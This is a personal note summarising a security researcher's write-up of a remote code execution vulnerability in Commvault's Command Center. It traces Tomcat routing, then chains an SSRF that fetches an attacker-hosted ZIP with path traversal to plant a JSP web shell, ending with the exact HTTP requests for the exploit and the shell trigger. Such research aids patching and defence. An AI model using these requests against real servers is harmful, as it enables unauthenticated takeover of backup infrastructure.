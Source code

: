 ```yaml
---
author: Sonny
aliases:
  - Fire in the Hole
  - We’re Breaching the Vault - Commvault Remote Code Execution
tags:
  - readwise/articles
url: https://labs.watchtowr.com/fire-in-the-hole-were-breaching-the-vault-commvault-remote-code-execution-cve-2025-34028/?__readwiseLocation=
date: 2025-04-26
summary: As we pack our bags and prepare for the adult-er version of BlackHat (that apparently doesn’t require us to print out stolen mailspoolz to hand to people at their talks), we want to tell you about a recent adventure - a heist, if you will.No heist story
---
```

# Fire in the Hole, We’re Breaching the Vault - Commvault Remote Code Execution

![rw-book-cover](https://labs.watchtowr.com/content/images/2025/04/Group-8730--6-.png)


Whenever reverse engineering applications for vulnerabilities, it's a process; it's going through the grooves to find its routes and endpoints, and asking yourself the all-important question - how can you interact with the application?

## Enumerating Tomcat setup

This varies from Nginx, Apache, Node, etc, but in this example, the initial contact is with an Apache #Tomcat process, whose configuration lies within its `server.xml`.
Looking at the `server.xml` excerpt below, we can correlate the Tomcat application `Context paths` to their `docBase`, which tells us where the relevant files are for each route on disk. [](https://read.readwise.io/read/01jsq73cta35szgrqnk9dv7mkb)

```xml
Context path="" docBase="F:/Program Files/Commvault/ContentStore/Apache/webapps/ROOT" reloadable="false">
          <Manager pathname=""/>
        </Context>
        <Context path="/console" docBase="F:/Program Files/Commvault/ContentStore/GUI" reloadable="false">
          <Manager pathname=""/>
        </Context>
        <Context path="/downloads/sqlscripts" docBase="F:/Program Files/Commvault/ContentStore/Metrics/scripts" reloadable="false">
          <Manager pathname=""/>
        </Context>
        <Context path="/publicdownloads/sqlscripts" docBase="F:/Program Files/Commvault/ContentStore/Metrics/public" reloadable="false">
          <Manager pathname=""/>
        </Context>
        <Context path="/commandcenter" docBase="F:/Program Files/Commvault/ContentStore/AdminConsole" reloadable="false">
          <Manager pathname=""/>
          <Resource name="BeanManager" auth="Container" type="javax.enterprise.inject.spi.BeanManager" factory="org.jboss.weld.resources.ManagerObjectFactory"/>
        </Context>
        <Context path="/identity" docBase="F:/Program Files/Commvault/ContentStore/identity" reloadable="false">
          <Manager pathname=""/>
        </Context>
        <Context path="/CustomReportsEngine" docBase="F:/Program Files/Commvault/ContentStore/CustomReportsEngine" reloadable="false">
          <Manager pathname=""/>
        </Context>
        <Context path="/reports" docBase="F:/Program Files/Commvault/ContentStore/Reports" reloadable="false">
          <Manager pathname=""/>
        </Context>
      </Host> 
    </Engine> 
```

the main application resides within `/commandcenter`, which follows a typical Tomcat structure with a `web.xml` and `WEB-INF` directories etc. [](https://read.readwise.io/read/01jsq74jpzsd9jqgm2p0tbkxsg)

Browsing whilst *unauthenticated* with our favourite HTTP proxy, we see several requests to endpoints using the `.do` extension, which typically indicates the usage of Apache #Struts Framework - but this doesn’t appear to be true in the instance of Commvault, as there is no `struts.xml` which lays out all of the `.do` or `.action` endpoints. [](https://read.readwise.io/read/01jsq75ecwp4820efcy8ngzxjk)

When looking at the `web.xml` there are also no exact mapping of `.do` endpoints, there is a `context-param` for `scanPackage` which looks at certain class paths. [](https://read.readwise.io/read/01jsq7662pjmz6sqjcfscfcqf9)

Sometimes, during reverse engineering, going from source to sink can be cumbersome, so to speed up the process, we can work backwards by decompiling all of the `.jar` and `.class` files within the `lib` directory, and looking for endpoints that we `.do` know of. [](https://read.readwise.io/read/01jsq7786whqxck17nkynhy2re)

After successfully decompiling all the libraries, we can grep through them for a path we've already observed (`sloCallBack.do`) within our HTTP proxy. Once we come across an example, it begins to make sense as to how the routing is instantiated [](https://read.readwise.io/read/01jsq7899hde594g2nyg6hvbgz)

...

## Zipping Subterfuge

To summarise, before we complete the heist:
1. We send an HTTP request to `/commandcenter/deployWebpackage.do`
2. This coerces the Commvault instance to fetch a ZIP file from our externally controlled server.
3. The contents of this zip file is unzipped to a `.tmp` directory we control.

A theoretical path to victory here would be to:
- Create a zip file containing a malicious `.jsp` file
- Host this zip file on an external HTTP server via the endpoint `/commandcenter/webpackage.do` `[0]`
- Use the `servicePack` parameter to traverse the `.tmp` directory into a pre-authenticated facing directory on the server, such as `../../Reports/MetricsUpload/shell`. We can ascertain this by referring back to the `server.xml` excerpt at the start of this article.
```xml
<Context path="/reports" docBase="F:/Program Files/Commvault/ContentStore/Reports" reloadable="false">
<Manager pathname=""/>
</Context>
```
- Execute the [Server Side Request Forgery (SSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Server%20Side%20Request%20Forgery%20(SSRF).md) via `/commandcenter/deployWebpackage.do` and see if our shell unzips.
- Execute our shell from `/reports/MetricsUpload/shell/.tmp/dist-cc/dist-cc/shell.jsp` [](https://read.readwise.io/read/01jsq7n272rchfm0dk0yvc7xsy)


## PoC
Full Request: [](https://read.readwise.io/read/01jsq7n77cdb9eek7smmj4zvmm)
```http
POST /commandcenter/deployWebpackage.do HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
commcellName=external-host.com&servicePack=../../Reports/MetricsUpload/shell/&version=watchTowr
```

Now, it's just a case of triggering our shell... [](https://read.readwise.io/read/01jsq7nv4cxesrfzwnk5ntc3r4)
```HTTP
GET /reports/MetricsUpload/shell/.tmp/dist-cc/dist-cc/watchTowr.jsp HTTP/1.1
Host: {{Hostname}} 
```

